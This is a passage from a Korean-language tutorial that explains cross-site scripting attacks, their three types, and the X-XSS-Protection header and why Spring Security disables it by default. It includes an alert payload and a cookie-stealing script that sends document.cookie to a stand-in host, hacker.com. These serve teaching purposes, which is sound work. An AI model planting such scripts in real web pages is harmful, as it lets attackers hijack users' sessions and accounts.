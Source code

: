     ```html
    안녕하세요! <script>alert('해킹당했습니다!');</script> 좋은 하루 보내세요!
    
    ```

   또는 사용자의 쿠키를 훔쳐 자신의 서버로 전송하는 스크립트를 넣을 수도 있습니다.

    ```html
    <script>document.location='<http://hacker.com/steal?cookie=>' + document.cookie;</script>
    
    ```

2. **웹사이트의 취약점:** 만약 웹사이트가 사용자의 입력값을 제대로 검증하거나 필터링하지 않고 그대로 HTML 페이지에 포함시킨다면...
3. **피해자:** 다른 사용자가 그 악성 스크립트가 포함된 게시글이나 댓글을 보게 되면, **피해자의 웹 브라우저에서 그 악성 스크립트가 실행**됩니다.
  - 위 첫 번째 예시에서는 '해킹당했습니다!'라는 경고창이 뜰 겁니다.
  - 두 번째 예시에서는 피해자의 쿠키 정보(로그인 정보 등)가 해커의 서버로 전송될 수 있습니다.

**XSS 공격으로 할 수 있는 나쁜 짓들:**

- **쿠키/세션 탈취:** 사용자의 로그인 정보를 훔쳐서 계정을 도용할 수 있습니다. (가장 흔하고 위험!)
- **악성코드 감염 유도:** 사용자를 악성코드가 있는 사이트로 유도하거나, 악성 파일을 다운로드하게 만들 수 있습니다.
- **피싱 사이트로 유도:** 가짜 로그인 페이지 등을 보여주고 사용자 정보를 입력하게 만들 수 있습니다.
- **웹사이트 내용 변조:** 사용자에게 보이는 웹사이트 내용을 마음대로 바꿀 수 있습니다.
- **키 입력 가로채기(Keylogging):** 사용자가 입력하는 내용을 몰래 훔쳐볼 수 있습니다.

XSS 공격은 크게 세 가지 유형으로 나뉩니다:

1. **Stored XSS (저장형 XSS):** 악성 스크립트가 웹사이트의 데이터베이스 등에 저장되었다가, 사용자가 해당 데이터를 조회할 때 실행되는 방식입니다. (게시판, 댓글 등)
2. **Reflected XSS (반사형 XSS):** 악성 스크립트가 URL의 파라미터 등을 통해 전달되고, 서버가 그 값을 그대로 응답 페이지에 포함시켜 사용자 브라우저에서 실행되는 방식입니다. (검색 결과 페이지 등)
3. **DOM-based XSS (DOM 기반 XSS):** 서버와는 상관없이, 클라이언트 측 JavaScript 코드의 취약점을 이용해 DOM(Document Object Model)을 조작하여 악성 스크립트가 실행되는 방식입니다.

### 🛡️ X-XSS-Protection 헤더의 역할

자, 이제 XSS 공격이 뭔지 알았으니 `X-XSS-Protection` 헤더의 역할을 이해하기 쉬워집니다.

`X-XSS-Protection` 헤더는 **웹 브라우저에 내장된 XSS 필터 기능을 제어**하는 HTTP 응답 헤더입니다. 예전에는 일부 브라우저(주로 Internet Explorer, Chrome 구버전 등)들이 자체적으로 반사형 XSS 공격을 탐지하고 차단하려는 시도를 했어요. 이 헤더는 그 기능을 켜거나 끄거나, 또는 특정 모드로 동작하도록 지시하는 역할을 했습니다.

**가능한 값들:**

- **`X-XSS-Protection: 0`**: 브라우저의 XSS 필터 기능을 **끈다(비활성화한다)**.
- **`X-XSS-Protection: 1`**: 브라우저의 XSS 필터 기능을 **켠다(활성화한다)**. 만약 XSS 공격이 탐지되면, 브라우저는 해당 스크립트를 제거하거나 페이지를 안전하게 변경하려고 시도합니다. (기본값이었던 경우가 많음)
- **`X-XSS-Protection: 1; mode=block`**: XSS 필터 기능을 켜고, 만약 XSS 공격이 탐지되면 스크립트를 제거하는 대신 **페이지 전체 렌더링을 중단**하고 아무것도 보여주지 않습니다. (더 안전한 모드)
- **`X-XSS-Protection: 1; report=<reporting-URI>`**: XSS 필터 기능을 켜고, XSS 공격이 탐지되면 위반 사항을 지정된 URI로 보고합니다.

**🤔 그런데 왜 Spring Security 기본값은 `X-XSS-Protection: 0` (끄기) 일까요?**

앞서 "학습하자" 부분에서 잠깐 언급했듯이, 이 브라우저 내장 XSS 필터 기능들이 **완벽하지 않고 오히려 다음과 같은 문제점**들을 가지고 있었기 때문입니다:

1. **오탐 (False Positives):** 정상적인 코드를 XSS 공격으로 잘못 판단하여 웹사이트가 깨지거나 오작동하는 경우가 있었습니다.
2. **우회 가능성:** 해커들이 이 필터 기능을 우회하는 새로운 XSS 공격 기법을 개발하기도 했습니다.
3. **새로운 취약점 유발:** 일부 경우에는 XSS 필터 자체가 또 다른 보안 취약점(XSS Auditor bypass 등)을 만들기도 했습니다.
4. **브라우저마다 동작 방식 상이:** 모든 브라우저가 이 기능을 동일하게 지원하거나 동작하지 않았습니다.
